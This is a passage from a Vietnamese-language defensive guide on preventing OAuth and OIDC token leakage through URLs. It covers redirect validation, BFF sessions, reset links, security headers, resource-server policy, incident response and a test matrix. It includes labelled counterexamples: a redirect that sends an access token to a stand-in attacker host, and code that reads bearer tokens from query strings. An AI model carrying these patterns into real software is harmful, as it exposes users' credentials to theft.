- PKCE không giúp nếu attacker lấy được **cả code và verifier** từ cùng runtime/log.
- PKCE không bảo vệ **AT/RT sau khi đã được cấp**.
- PKCE không thay `state`, issuer binding, redirect URI validation hoặc chống XSS.
- Không dùng `code_challenge_method=plain` như cách “tối ưu”; dùng `S256` theo best practice.
- Một authorization code đã đổi một lần phải không đổi lại được; code interception/reuse cần được phát hiện và xử lý an toàn.

**Vì vậy Code + PKCE là thiết kế giảm thiểu nguy cơ front-channel credential leakage**, không phải lý do đưa Bearer AT trực tiếp vào URL.

## 9. Redirect URI, open redirect và token/code substitution

Đặt token trong URL càng nguy hiểm khi ứng dụng có các tuyến **redirect**. Một tham số `next`/`returnUrl` tưởng như phục vụ UX có thể đưa người dùng hoặc authorization response tới miền attacker.

### 9.1. Phản ví dụ: redirect URL mang AT

```http
HTTP/1.1 302 Found
Location: https://tracker.attacker.example/collect?access_token=<AT>
```

Khi browser làm theo redirect, URL đích được đưa đến hệ thống attacker. Không có `Referrer-Policy` nào làm AT trong **chính URL đích** biến mất: nó là request target của request mới.

**Đừng gắn token vào redirect URI**, kể cả redirect cùng origin sang trang kế tiếp. Token có thể tiếp tục đi qua một chuỗi chuyển hướng, ghi vào log ở từng tầng.

### 9.2. Open redirect có thể biến URL sạch thành nguy cơ

Ứng dụng có endpoint:

```text
GET https://portal.example.com/redirect?next=<user-controlled-url>
```

Nếu server redirect tùy ý tới `next`, attacker có thể dùng domain của client làm **trạm trung chuyển** trong một cuộc tấn công hoặc social engineering. Đặc biệt nguy hiểm khi cấu hình AS chấp nhận redirect URI quá rộng, wildcard hoặc không so khớp URI đã đăng ký.

Biện pháp:

- **AS phải kiểm tra chính xác redirect URI** theo registration/profile, không chấp nhận arbitrary query-provided external callback.
- **Chặn open redirect** trên callback/return URL: chỉ cho relative path nội bộ đã được kiểm tra, không cho scheme-relative URL `//evil.example` hoặc URL có username/host tricks.
- **Không dùng `redirect_uri`, `post_logout_redirect_uri` hoặc `returnUrl` chưa verify** làm nơi gửi `code`, AT hoặc ID Token.
- Cấu hình `response_type=code` + PKCE thay vì implicit token front-channel; binding client/redirect/issuer vẫn cần.
- Khi có nhiều OP, lưu expected issuer trong transaction và áp **AS mix-up defense** (ví dụ RFC 9207 khi hỗ trợ).

### 9.3. OAuth response không nên qua dịch vụ tracking

Một chuỗi sai:

```text
AS -> https://analytics.example.net/callback?code=K&state=S
   -> https://portal.example.com/callback?code=K&state=S
```

Điểm tracking đã nhận authorization code và state. **PKCE giúp bảo vệ code khỏi đổi trái phép khi verifier không lộ**, nhưng authorization response vẫn đã vượt ranh giới client/AS dự kiến. Callback nên trỏ trực tiếp tới **đúng URI được đăng ký**, không đi qua redirect/tracking ngoài kiểm soát.

### 9.4. Response mode và các flow legacy

| OIDC/OAuth response | Dữ liệu trên front-channel | Lưu ý leakage |
| --- | --- | --- |
| **Authorization Code, `response_type=code`** | `code`, `state` hoặc lỗi trong query/form post theo profile. | Code vẫn nhạy cảm; PKCE, state, one-time, redirect URI validation và log redaction. |
| **Implicit `response_type=token` / OIDC `id_token token` cũ** | Access token/ID Token có thể xuất hiện ở fragment. | Tránh cho ứng dụng mới; JS/XSS/history/extension có thể quan sát fragment. |
| **OIDC hybrid** | Có thể có code/ID Token/AT ở front-channel tùy response type. | Phải dùng `nonce` và các hash binding `c_hash`/`at_hash` khi flow yêu cầu; không chọn chỉ để giảm token endpoint call. |
| **`response_mode=form_post`** | OP trả form POST sang callback khi profile hỗ trợ. | Giảm URL query/fragment theo kiến trúc nhưng body có thể bị log; cần state/session binding và bảo vệ callback. |
| **JARM (JWT Secured Authorization Response Mode)** | Authorization response được ký/bao gói theo profile. | Bảo vệ integrity/authenticity của response, **không thay** bảo vệ URL nếu response JWT chứa dữ liệu nhạy cảm trong URI. |

Các profile mở rộng phải được **AS/client cùng hỗ trợ và cấu hình đúng**; không đổi tùy tiện sang `form_post`/JARM nếu SDK/registration chưa hỗ trợ. Khuyến nghị mặc định cho thiết kế mới vẫn là **Authorization Code + PKCE**.

## 10. Kiến trúc BFF: không để browser quản lý AT/RT

**Backend for Frontend (BFF)** là một lựa chọn giảm bề mặt lộ token ở browser: BFF quản lý OAuth AT/RT phía server; browser chỉ giữ một **session reference**.

### 10.1. Luồng BFF



**Một đặc điểm quan trọng:** OAuth callback `code`/`state` vẫn qua URL trong Code Flow và phải được bảo vệ. BFF **không loại bỏ mọi URL nhạy cảm**, nhưng giảm việc đưa **Bearer AT/RT** vào browser JavaScript, URL và các API requests do JS tự tạo.

### 10.2. Cookie phiên BFF minh họa

```http
Set-Cookie: __Host-portal-session=<opaque-session-id>; Path=/; Secure; HttpOnly; SameSite=Lax
Cache-Control: no-store
```

- `Secure`: dùng HTTPS theo yêu cầu của cookie.
- `HttpOnly`: JS không đọc được giá trị cookie, giảm một đường đánh cắp session ID qua XSS; **không ngăn XSS dùng session để gửi request**.
- `SameSite`: giảm một số CSRF; vẫn cần CSRF/Origin protection cho state-changing endpoints.
- `__Host-`: cookie không có `Domain`, dùng `Path=/` và `Secure` ở browser hỗ trợ.
- Session ID phải được **quản lý server-side**, rotate sau login/nâng quyền và invalid khi logout. Không thay AT/RT bằng một session token nhét vào URL.

### 10.3. Browser gọi BFF không cần token ở query/header

```javascript
async function loadOrdersFromBff() {
  const response = await fetch("/api/orders", {
    method: "GET",
    credentials: "same-origin",
    headers: { "Accept": "application/json" }
  });
  if (!response.ok) throw new Error("Orders request failed");
  return response.json();
}
```

Request browser mang cookie phù hợp scope; BFF gọi RS với AT bằng `Authorization` header trên kết nối backend. **Không dùng cookie để tự gọi cross-origin RS trừ khi kiến trúc cố ý hỗ trợ** và đã có CORS/CSRF/session design phù hợp.

### 10.4. Những thứ BFF vẫn phải bảo vệ

- XSS/session riding: script có thể dùng BFF API khi user còn đăng nhập.
- CSRF ở endpoints thay đổi trạng thái, kể cả login/logout khi có rủi ro.
- Token vault ở backend: secret manager, encryption/IAM, redaction và rotation.
- API object-level authorization và tenant boundaries; BFF không tự thay RS authorization.
- OAuth code callback logs, redirect URI validation và `Referrer-Policy`.
- Logout RT family revocation và xử lý AT còn hạn, không chỉ xóa cookie.

**BFF là một kiến trúc giảm phơi lộ token, không phải lá chắn tuyệt đối chống XSS hoặc compromise backend**.

## 11. Khi URL **phải chứa một bí mật**: reset link và magic link

Một số tác vụ **không phải OAuth Bearer API access** cần sử dụng liên kết mang mã để người dùng có thể nhấp từ email/SMS: đặt lại mật khẩu, xác minh email, xác nhận lời mời, magic-link login. Đây là **bearer link token** có threat model riêng. Không suy từ sự tồn tại của chúng rằng **đưa OAuth access/refresh token vào URL cũng được**.

### 11.1. Mẫu link token được giới hạn tác vụ

```text
https://identity.example.com/reset-password?challenge=<short-lived-one-time-code>
```

Token này nên:

1. Chỉ có **một mục đích** (ví dụ xác nhận reset password), không phải AT có thể gọi `/orders`.
2. Có **entropy cao** từ CSPRNG, không suy được từ user ID, timestamp hoặc email.
3. **Thời hạn ngắn** phù hợp UX và rủi ro, có giới hạn số lần thử/rate limiting.
4. **Chỉ dùng một lần**, được consume nguyên tử, có bảo vệ concurrent redemption.
5. Ràng buộc đúng chủ thể/yêu cầu đã tạo, và **không tự đủ cho thao tác cực nhạy cảm** nếu cần bước xác minh bổ sung.
6. Có `Referrer-Policy: no-referrer`, trang landing không tải third-party scripts/tracking trước khi redeem.
7. Không log raw code và không cho link preview/scanner vô tình **kích hoạt tác vụ nhạy cảm** bằng GET.

### 11.2. Vì sao email security scanner gây vấn đề?

Nhiều tổ chức có link scanners/preview bots tự động mở URL trong email. Nếu server chỉ cần một **GET tới URL** để tiêu thụ magic link hoặc đổi mật khẩu:

```text
Email chứa /reset?challenge=T
Scanner gửi GET /reset?challenge=T
Server tự consume T, thay đổi trạng thái / tạo session
User bấm link sau -> token đã dùng, hoặc thao tác bị kích hoạt sớm
```

Thiết kế tốt thường tách **GET để hiển thị landing page** khỏi **POST sau tương tác có chủ đích** và kiểm tra context/CSRF/confirmation phù hợp. Tuy vậy scanner có thể phức tạp hơn chỉ GET, nên đây **không phải bảo đảm tuyệt đối**; cân nhắc additional authentication/MFA hay app/device binding theo mức rủi ro.

### 11.3. Làm sạch URL sau khi nhận link

```text
1. Browser mở /reset-password?challenge=T qua HTTPS.
2. Server/ứng dụng xác minh định dạng, TTL và chính sách; không tự thực hiện
   hành động cuối cùng chỉ vì GET.
3. Trả landing page với Referrer-Policy: no-referrer, no-store,
   tránh third-party resources.
4. Nếu phù hợp, chuyển code vào state tạm an toàn và redirect tới URL sạch.
5. User xác thực/confirm theo policy rồi POST để redeem T đúng một lần.
6. Thu hồi/expire code; không ghi T vào logs/analytics.
```

**Quan trọng:** redirect tới URL sạch ở bước 4 **không xóa bản sao token đã vào server/proxy logs hoặc scanner**. Đó là giảm thiểu thứ cấp; cần bảo vệ entrypoint và credential lifecycle.

### 11.4. Signed URL cho object storage có giống OAuth AT không?

Một **pre-signed download URL** có thể chứa chữ ký/expiry cho một object cụ thể. Nó cũng là **bearer capability theo URL**, dù không phải OAuth access token:

- Giới hạn object, method, thời hạn và quyền truy cập đúng nhu cầu.
- Không gắn URL trực tiếp vào public analytics, email không cần thiết hoặc shared logs.
- Hiểu rằng **ai có URL** trong thời gian còn hạn có thể tải object theo policy của storage.
- Nếu cần revoke sớm, phải biết khả năng của nền tảng: thay resource/credential signing, policy deny hoặc kiểm soát backend proxy; nhiều URL đã ký không có per-link revoke tức thời.

**Không dùng signed URL như phương pháp chung để chuyển OAuth access token qua query**; đây là hai loại credential khác, cần xử lý rò rỉ riêng.

## 12. Phòng vệ theo lớp: URL, HTTP headers, CSP, referrer và logs

Giải pháp chính là **thiết kế token flow không đặt Bearer AT/RT trong URL**. Các biện pháp sau là **defense in depth**, đặc biệt cho OAuth callback (vẫn có authorization code) và link-token đặc thù.

### 12.1. Ma trận kiểm soát và giới hạn

| Kiểm soát | Giảm rủi ro nào? | **Không** giải quyết điều gì? |
| --- | --- | --- |
| **`Authorization` header thay query AT** | AT không xuất hiện trong request URL/history/query logs. | Header vẫn có thể bị log; XSS trong SPA có thể lấy hoặc dùng AT. |
| **BFF + `HttpOnly` cookie** | Hạn chế AT/RT hiện diện ở browser JS/URL. | XSS session riding, CSRF, backend token vault compromise. |
| **`Referrer-Policy: no-referrer`** | Ngăn browser tự gửi URL nguồn qua `Referer` từ page được áp. | URL đích tự chứa token, reverse proxy logs, history, share, JS exfiltration. |
| **`Cache-Control: no-store`** | Giảm lưu response ở cache hỗ trợ. | URL history/clipboard/log đã có; không thay token expiry. |
| **CSP nonce/hash, hạn chế scripts** | Giảm một số lớp script injection và third-party execution. | CSP sai cấu hình hoặc script tin cậy bị compromise, server logs. |
| **Trusted Types (khi hỗ trợ)** | Giảm DOM XSS qua các sink HTML/JS nguy hiểm. | Không ngăn proxy logs hay quyền của script hợp lệ có thể đọc URL. |
| **Redirect URI exact matching** | Giảm code/token diversion qua callback không đăng ký. | XSS ngay trên callback hoặc token trong query của API khác. |
| **PKCE `S256`** | Hạn chế đổi authorization code bị lấy đơn lẻ. | AT/RT bị lộ sau issuance; không bảo vệ nếu verifier cũng lộ. |
| **AT TTL ngắn, scope/audience hẹp** | Giảm thời gian/quyền khi token đã bị lộ. | Không ngăn lộ ban đầu; không thu hồi tức thì JWT offline. |
| **DPoP/mTLS sender constraint** | Giảm replay chỉ bằng chuỗi token khi attacker không có key/cert. | Client compromise hoặc XSS có thể dùng capability; không thay revocation. |
| **Log redaction tại nguồn** | Giảm lưu/lan truyền credential qua observability. | Browser history hoặc attacker đã giữ link trước khi redaction. |
| **Revoke/rotate token sau leak** | Hạn chế tiếp tục dùng credential bị lộ. | Dữ liệu đã bị đọc/xuất trước revoke, JWT RS offline chưa cập nhật. |

### 12.2. HTTP response headers mẫu cho callback

```http
HTTP/1.1 303 See Other
Location: /dashboard
Referrer-Policy: no-referrer
Cache-Control: no-store
Pragma: no-cache
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; base-uri 'none'
```

Đây là **ví dụ một response redirect sau callback đã xử lý thành công**. CSP cụ thể của route thực tế phải được kiểm thử; header CSP không khiến secrets từng xuất hiện trong URL biến mất khỏi logs. Với một trang HTML callback có JS, CSP cần được thiết kế theo scripts thực tế, không sao chép `default-src 'none'` rồi kỳ vọng app vẫn chạy JS.

**Redirect với đường dẫn tương đối sạch** như `/dashboard` không chứa `code`, `state` hoặc token. Dùng `303` sau POST khi phù hợp; không phải mọi OIDC callback đều dùng POST. Không sử dụng open redirect dựa trên tham số ngoài allowlist.

### 12.3. CSP ở SPA

Một SPA có thể bật CSP nonce/hashes, không dùng `unsafe-inline` không cần thiết, giảm third-party scripts và dùng Trusted Types ở nơi browser hỗ trợ:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-<per-response-random>'; object-src 'none'; base-uri 'self'; frame-ancestors 'none'
Referrer-Policy: no-referrer
```

**CSP nonce phải ngẫu nhiên theo response**, không phải hằng số; cấu hình phải phù hợp assets/SDK của app. CSP chỉ giảm nguy cơ XSS/exfiltration, **không biện minh** việc app đặt AT/RT trong URL.

### 12.4. JavaScript: làm sạch callback URL sau khi xử lý

Ví dụ minh họa cho một SPA callback đã bảo vệ state/PKCE/issuer theo SDK:

```javascript
async function handleOidcCallback(oidcClient) {
  // SDK phải verify state, issuer, PKCE, ID Token/nonce nếu có.
  await oidcClient.processAuthorizationCodeCallback(window.location.href);

  // Chỉ giảm thời gian query xuất hiện ở thanh URL/history hiện tại.
  // Không xóa được các bản đã bị browser/proxy/analytics ghi trước đó.
  window.history.replaceState(null, "", "/dashboard");

  // Không gửi location.href cũ vào analytics.
  showAuthenticatedUi();
}
```

**Chú ý:** `oidcClient.processAuthorizationCodeCallback` là **pseudocode**, không phải method chuẩn của mọi OIDC SDK. Nếu việc xử lý callback thất bại, không được tạo phiên hoặc ghi ID Token từ URL vào `localStorage` để “retry thủ công”.

### 12.5. Đừng chỉ “xóa query” trên client sau khi token đã được tải

Một phản ví dụ:

```javascript
// SAI: credential đã nằm trong URL, các hệ thống khác có thể đã ghi lại.
const accessToken = new URL(location.href).searchParams.get("access_token");
history.replaceState(null, "", "/dashboard");
fetch("/orders", { headers: { Authorization: "Bearer " + accessToken } });
```

Đoạn code có thể xóa **dấu vết hiển thị**, nhưng **không thay đổi thiết kế sai** phát AT qua URL. Script XSS, trình duyệt, proxy, analytics có thể đã nhìn thấy AT trước khi `replaceState` chạy.

## 13. Phát hiện và ngăn API chấp nhận token trong URL

Khi bảo vệ một OAuth Resource Server, phòng ngừa không chỉ nằm ở client. **API nên quy định một cách truyền credential được hỗ trợ và kiểm thử những cách khác bị từ chối**.

### 13.1. Quy tắc tại Resource Server

Đối với API Bearer:

- Chấp nhận **`Authorization: Bearer`** hoặc sender-constrained scheme/profile được cấu hình, không tự tìm `access_token` trong query.
- Nếu client gửi token trong query **và** header, không đoán token nào “ưu tiên”; nên từ chối ambiguity và log một sự kiện an toàn không chứa token.
- Nếu request có query param `access_token` bất thường, **từ chối sớm** (400 hoặc lỗi theo API profile), không phản chiếu giá trị.
- Không thêm fallback “nếu thiếu header thì lấy `request.getParameter("token")`”, vì nó làm mở lại đường leakage.
- Không tin một `X-Authorization` header hoặc query token tự tạo bởi proxy không được xác thực.
- Vẫn xác minh token ở đúng RS: issuer, audience, type, expiry, scope, revocation/sender-proof và quyền trên tài nguyên.

**RFC 6750 có mô tả query method**, nên đây là **chính sách siết chặt của hệ thống** phù hợp best practice, không nên viết “query không tồn tại trong RFC”.

### 13.2. Spring Security: chỉ lấy Bearer từ header

Spring Security Resource Server thường hỗ trợ cấu hình `BearerTokenResolver`. Ví dụ **Java/Spring Security pseudo-realistic**:

```java
// Các import/configuration class cần đối chiếu phiên bản Spring Security.
@Bean
BearerTokenResolver bearerTokenResolver() {
    DefaultBearerTokenResolver resolver = new DefaultBearerTokenResolver();

    // Không cho Bearer token trong URI query.
    resolver.setAllowUriQueryParameter(false);

    // Không cho Bearer trong form body.
    resolver.setAllowFormEncodedBodyParameter(false);

    return resolver;
}

@Bean
SecurityFilterChain apiSecurity(HttpSecurity http,
                                BearerTokenResolver bearerResolver)
        throws Exception {
    http
        .securityMatcher("/api/**")
        .authorizeHttpRequests(auth -> auth
            .anyRequest().authenticated())
        .oauth2ResourceServer(oauth2 -> oauth2
            .bearerTokenResolver(bearerResolver)
            .jwt(Customizer.withDefaults()));
    return http.build();
}
```

**Các API thực tế có thể thay đổi theo phiên bản Spring**, cần tham chiếu tài liệu của dependency đang dùng. Mục tiêu là **không chủ động đọc AT từ URL**. Khi API phục vụ nhiều token formats, có thể chọn JWT decoder/opaque introspector tương ứng, nhưng không thay chính sách transport.

### 13.3. Kiểm thử reject query bearer

```http
GET /api/orders?access_token=<test-bearer-token> HTTP/1.1
Host: api.example.com
```

Expected: **request không được xác thực nhờ query bearer**, không trả dữ liệu chỉ dựa trên token trong URL. Tùy resolver/filter, endpoint có thể trả `400` vì credential ở vị trí không cho phép hoặc `401` vì không có header hợp lệ; test phải xác định contract. Quan trọng nhất: **không chấp nhận query token và không log nó**.

### 13.4. Gateway reject + redaction có đủ không?

**Chưa đủ** nếu gateway có thể bị bypass hoặc upstream đã ghi query trước khi filter:

- Chặn tại edge sớm giúp giảm số bản sao credential, nhưng một vài access logs tại tầng edge có thể vẫn đã nhận URL.
- RS phải có chính sách transport riêng hoặc tin gateway qua boundary được bảo vệ (mTLS/network ACL/verified identity headers) và không cho direct access bypass.
- Filter response không thể thu hồi token từng nằm trong logs cũ; cần incident process.
- Không trả raw query trong error message để “hướng dẫn dev”.

### 13.5. Không ghi `request.getRequestURL()`/`getQueryString()` trực tiếp

Ví dụ logger an toàn hơn cho route được biết sẵn:

```java
// Chỉ log metadata không có raw query/path động.
audit.info("api_request method={} route={} status={} correlation={}",
    request.getMethod(),
    "GET /api/orders",
    response.getStatus(),
    safeCorrelationId);

// Phản ví dụ: có thể ghi bearer token trong query.
// audit.info("URL: " + request.getRequestURL() + "?" + request.getQueryString());
```

**Không dùng route tag hard-coded `GET /api/orders` cho mọi endpoint** trong ứng dụng thật; hãy lấy **route template đã được framework xác thực** hoặc một allowlist, tránh path parameter chứa token/PII. Logging cấu trúc nên không bao gồm `Authorization`, `Cookie` hoặc body token endpoint.

## 14. Ứng cứu khi phát hiện token đã rò qua URL

Không chỉ sửa dòng code sinh URL rồi coi như sự cố kết thúc. Cần đánh giá **token đã được phát hành, thời gian còn hiệu lực, nơi URL được ghi lại và khả năng attacker đã truy cập tài nguyên**.

### 14.1. Playbook theo bước



**Không paste raw token** vào chat/ticket để hỏi “token này có hợp lệ không”; dùng reference/HMAC từ hệ thống đáng tin hoặc công cụ bảo mật giới hạn quyền. Việc “thử token” bằng API thật có thể làm phát sinh truy cập không cần thiết và tạo thêm dấu vết credential.

### 14.2. Xử lý khác nhau theo loại token

| Credential đã lộ | Ưu tiên ứng cứu |
| --- | --- |
| **Access token Bearer** | Revoke AT nếu AS/RS hỗ trợ; đánh giá denylist/introspection/cửa sổ JWT offline; kiểm tra audience, scope, client, các API requests khả nghi. |
| **Refresh token** | Ưu tiên revoke RT **và rotation family/grant tương ứng** nếu có nguy cơ dùng successor; đánh giá AT mới đã được mint trước/đang sau sự cố. |
| **OIDC ID Token** | Không dùng như AT; đánh giá PII, login/session replay hoặc token confusion tại RP, rotate/revoke phiên khi cần; không giả định revoke AT sẽ “thu hồi ID Token” theo nghĩa chung. |
| **Authorization code** | Xác định code còn hạn/đã consumed, PKCE/redirect/client binding có đúng không; nếu đã đổi token trái phép cần xử lý AT/RT phát sinh. |
| **Session token/cookie ID** | Invalid server-side session, rotate session ID và đánh giá CSRF/hijack; không chỉ xóa cookie ở browser. |
| **Reset/magic link token** | Vô hiệu one-time challenge, phát link mới và xem có dấu hiệu scanner/attacker redeem. |
| **Pre-signed object URL** | Giới hạn truy cập object, đánh giá invalidate/cutoff theo khả năng storage, rotate signing credentials nếu cần và xử lý dữ liệu đã tải. |

### 14.3. Trạng thái AT còn hạn: không được hứa revoke tức thì

Ví dụ:

```text
10:00  Bearer AT lộ qua ?access_token=...
10:01  AS commit revoke AT
10:02  Orders API JWT-only validator vẫn verify signature, aud, exp PASS
10:15  Token tới exp, RS cuối cùng từ chối (nếu không có revoke check)
```

Nếu RS chỉ verify offline, **AS database revoke chưa chặn AT ở API**. Muốn chặn trước `exp` cần denylist theo `jti`/token reference, grant/session version check, opaque introspection, revocation event + cache invalidation hoặc biện pháp tương đương. Với API rủi ro cao, xác minh trạng thái token **gần thời điểm thao tác** theo policy; khi backend trạng thái không khả dụng, fail-closed nếu đó là hợp đồng.

### 14.4. Thu hồi RT và reuse detection

Một RT từng đi vào URL có thể đã bị sao chép. Nếu AS hỗ trợ refresh token rotation:

```text
RT0 (ROTATED) -> RT1 (ACTIVE) -> RT2 (ACTIVE sau một lần refresh tiếp)
```

**Đừng chỉ revoke RT0** nếu nó đã rotated trong khi successor RT1/RT2 còn dùng được. Revoke token family/grant đúng phạm vi theo capability AS, chặn new issuance, kiểm tra AT phát sinh và xử lý RT reuse theo chính sách. RFC 7009 response `200 OK` cho token unknown/rotated **không tự chứng minh family đã vô hiệu**.

### 14.5. Truy vết mà không làm lộ thêm token

- Gắn **correlation ID**, event ID và token/grant reference an toàn.
- Không lưu raw bearer credential trong điều tra; hạn chế người và công cụ được xem logs có khả năng đã chứa token.
- Kiểm tra thời gian log tạo/đồng bộ, retention, bản sao CDN/WAF/APM, backup và support tickets.
- Tìm hành vi API phù hợp audience/scope/token reference **trong phạm vi được phép**, không tự suy không có truy cập nếu thiếu log.
- Báo cho chủ thể chịu trách nhiệm và người dùng theo incident/security/privacy policy, tránh thông báo quá mức hoặc khẳng định đã xóa dữ liệu không có bằng chứng.

## 15. Case studies: ba sự cố và cách sửa tận gốc

### 15.1. SPA đẩy AT vào `window.location` để “chuyển trang”

Code phản ví dụ:

```javascript
// KHÔNG AN TOÀN: khiến AT thành URL query.
window.location.assign("/dashboard?access_token=" +
  encodeURIComponent(accessToken));
```

**Vấn đề:**

1. Browser có thể lưu URL trong history.
2. Dashboard có thể tải analytics trước khi dọn query.
3. Proxy, APM hoặc server log request target.
4. Tab khác hoặc người dùng có thể copy link.
5. Token dù là JWT hay opaque vẫn là Bearer credential nếu RS chấp nhận.

**Thiết kế đúng:** SPA giữ token trong cơ chế storage/runtime theo threat model và gọi API bằng header; hoặc dùng BFF với session cookie. Thay vì truyền AT qua URL khi chuyển route, truyền **UI state không nhạy cảm** qua router/state manager. Nếu đã có leak, revoke/rotate token bị ảnh hưởng và kiểm tra nơi URL đã tồn tại.

### 15.2. OAuth callback load analytics trước khi xử lý `code`

Ứng dụng nhận:

```text
https://portal.example.com/callback?code=K&state=S
```

HTML callback tự tải third-party analytics SDK, SDK gửi `location.href` vào event. Authorization code K và state S đi tới vendor trước khi app đổi code.

**Phân tích đúng:**

- Đây là **authorization code leakage**, không đồng nhất Bearer AT leakage.
- PKCE `S256` và confidential client authentication giảm khả năng attacker đổi code đơn lẻ; nếu verifier/client credential bị lộ cùng lúc thì nguy cơ tăng.
- State và redirect validation vẫn cần chống login CSRF/AS mix-up.
- Sửa callback thành **server-side handler** xử lý code và redirect sạch, hoặc SPA callback tối giản không analytics cho đến khi code được xử lý/xóa URL.
- Redact callback query tại log/observability, kiểm tra vendor retention và ảnh hưởng thực tế.

**Không chuyển code sang `access_token` query** để “giảm một round trip”. Điều đó làm mất lớp bảo vệ của Code + PKCE.

### 15.3. Bearer token trong QR/deep link

Một đội phát triển muốn cho user scan QR để đăng nhập TV:

```text
myapp://login?access_token=<AT>
```

QR có thể được chụp ảnh, browser/OS nhận deep link có thể log URL, và handler của ứng dụng khác có thể bị đăng ký nhầm tùy hệ điều hành. **AT trong deep link vẫn là URL/token leakage** dù không phải HTTPS web URL.

**Thiết kế đúng:** dùng **OAuth 2.0 Device Authorization Grant (RFC 8628)** với `user_code`/`verification_uri` hoặc flow phù hợp platform, không copy AT của điện thoại sang TV qua QR. Với device flow:

- Thiết bị giữ kín **`device_code`**, user nhập `user_code` ở trang AS đáng tin.
- User kiểm tra code/client/device trước khi consent, tránh attacker remote device phishing.
- Client poll token endpoint theo `interval` và `expires_in`, chỉ nhận AT khi được phê duyệt.
- Không đưa raw `device_code` hoặc AT/RT vào QR.

`verification_uri_complete` có thể mang **user code** theo RFC 8628 nhưng đó là một **mã xác minh ngắn hạn có kiểm soát**, không phải AT/RT.

### 15.4. Java gateway dùng query fallback “cho dễ test”

Middleware:

```java
// PHẢN VÍ DỤ — đừng làm trong OAuth Resource Server mới.
String token = request.getHeader("Authorization");
if (token == null) {
    token = request.getParameter("access_token");
}
```

Điều này khiến AT query trở thành interface chính thức khó gỡ: clients bắt đầu tạo bookmark, curl command, monitoring probe, integration tests đều chứa token ở URL.

**Sửa tận gốc:**

1. Tạo policy chỉ Bearer header hoặc sender-constrained auth scheme.
2. Instrument **số request dùng query bearer** mà không log giá trị token.
3. Migration clients có thời hạn rõ; không âm thầm duy trì fallback vô hạn.
4. Bỏ query resolver; API reject truy vấn có credential và trả lỗi trung tính.
5. Kiểm thử gateway, direct RS route, CDN logs và metrics.

### 15.5. Link reset password bị prefetch

Một service tạo link:

```text
https://identity.example.com/reset?challenge=T
```

Email scanner tự gửi GET và token T bị consume. User nhận “link hết hạn” dù chưa bấm. Tệ hơn, hệ thống có thể tạo session hoặc thay đổi trạng thái ngay trên GET.

**Sửa:** tách GET landing và POST xác nhận có chủ đích, code one-time, short TTL, rate limiting, link-specific policy, anti-CSRF và không tải third-party resources trên landing. Nếu hành động rất nhạy cảm, thêm user authentication/step-up thay vì chỉ dựa vào possession of link. **Không nên dùng OAuth AT/RT trong reset link**.

## 16. Ma trận kiểm thử chống token leakage qua URL

Môi trường giả lập:

```text
Issuer/AS:        https://identity.example.com
RP/BFF:           https://portal.example.com
Resource Server:  https://api.example.com, aud=api://orders
OAuth client:     portal-bff hoặc public SPA theo từng test
Access token:     AT_TEST (dummy value, không dùng production)
Refresh token:    RT_TEST (dummy value)
Auth code:        CODE_TEST (one-time, PKCE-bound)
Policy API:       Bearer Authorization header only
```

| Trường hợp kiểm thử | Kết quả mong đợi |
| --- | --- |
| `GET /orders?access_token=AT_TEST` không có Authorization header. | Không xác thực bằng query token; trả lỗi phù hợp API, không trả dữ liệu. |
| `GET /orders` + `Authorization: Bearer AT_TEST` hợp lệ. | RS kiểm tra token/issuer/audience/scope/object đúng profile rồi mới cho phép. |
| Request có token trong **cả header và query**. | Không chấp nhận ambiguity/fallback, không log raw value. |
| Request có `?refresh_token=RT_TEST` đến Orders API. | RS không nhận RT là API credential; reject/log an toàn. |
| Request có `?id_token=...` đến Resource Server. | Không coi ID Token là OAuth AT, reject token-purpose confusion. |
| Request chứa token trong path `/orders/<AT_TEST>`. | Không sử dụng path làm credential, route/log/trace không ghi secret. |
| URL query parameter có tên biến thể `jwt`/`auth`/`session_key`. | Security review phát hiện credential semantics, không chỉ regex tên `access_token`. |
| OAuth callback nhận `code`/`state` hợp lệ. | RP verify transaction/PKCE, đổi code một lần rồi redirect sạch. |
| OAuth callback `state` sai/thiếu. | RP từ chối; không đổi code hoặc tạo session. |
| OAuth callback code đã được dùng. | AS từ chối code reuse; không cấp token lần hai. |
| Authorization code bị lộ nhưng attacker không có PKCE verifier. | Token endpoint không cấp token cho code bị intercept đơn lẻ. |
| Authorization code và PKCE verifier cùng bị lộ. | Test threat model xác định rủi ro cao, không tuyên bố PKCE tự bảo vệ được. |
| OAuth redirect URI là external URL chưa đăng ký. | AS từ chối, không chuyển authorization response tới đích ngoài. |
| `returnUrl` có open redirect tới attacker domain. | Client từ chối/allowlist, không forward code/token tới attacker. |
| Callback page có external analytics script truy cập `location.href` trước cleanup. | Security test FAIL; third-party không nhận code/state. |
| Callback `Referrer-Policy: no-referrer` và no-store. | Browser giảm gửi referrer/lưu response theo policy, không tuyên bố xoá logs đã có. |
| Điều hướng cùng origin từ URL chứa query AT với referrer policy lỏng. | Test nhận diện khả năng full URL đến trang đích/log và loại bỏ AT query. |
| Cross-origin navigation với `strict-origin-when-cross-origin`. | Browser thường chỉ gửi origin trên HTTPS→HTTPS; không suy mọi query đều bị lộ qua Referer. |
| Cross-origin với `unsafe-url` khi URL nguồn có AT. | Test phát hiện nguy cơ path/query đi trong Referer; đổi policy và loại bỏ token URL. |
| URL có fragment `#access_token=...`. | Server request target không có fragment; JS/XSS/extension vẫn có thể đọc; test không coi an toàn. |
| SPA gọi `history.replaceState` sau khi token query đã được nhận. | URL hiển thị được làm sạch nhưng test xác định logs/history trước đó có thể còn bản sao. |
| Gateway ghi `$request_uri` có AT query. | Security QA FAIL; phải redaction/chặn query ở nguồn. |
| APM ghi `http.url`/`url.full` có AT query hoặc callback code. | QA FAIL; span attributes phải được sanitize. |
| Logger ghi raw `Authorization` dù URL sạch. | QA FAIL; chuyển transport sang header không thay việc bảo vệ header. |
| CDN cache bỏ qua query trên API cá nhân hóa. | Không cross-user response leak; cache policy authorization đúng. |
| Browser copy URL chứa AT sang chat/link preview. | Incident process phát hiện leak, revoke/rotate phù hợp, không tiếp tục tạo token URL. |
| AT bị lộ và AS revoke nhưng RS JWT offline. | Test chỉ ra AT có thể còn được chấp nhận tới `exp`; không hứa instant. |
| AT revoked và RS có denylist/introspection đã cập nhật. | RS từ chối `401 invalid_token` theo profile. |
| RT bị lộ, RT0 đã rotated sang RT1. | Revoke family/grant phù hợp, không coi `200` cho RT0 là xác nhận RT1 đã chết. |
| DPoP-bound AT bị lộ mà private key/proof không lộ. | Test xác minh RS reject bearer-only replay; vẫn có revocation policy riêng. |
| Magic/reset link được email scanner mở bằng GET. | Không tự đổi password/tạo session/consume challenge chỉ vì prefetch. |
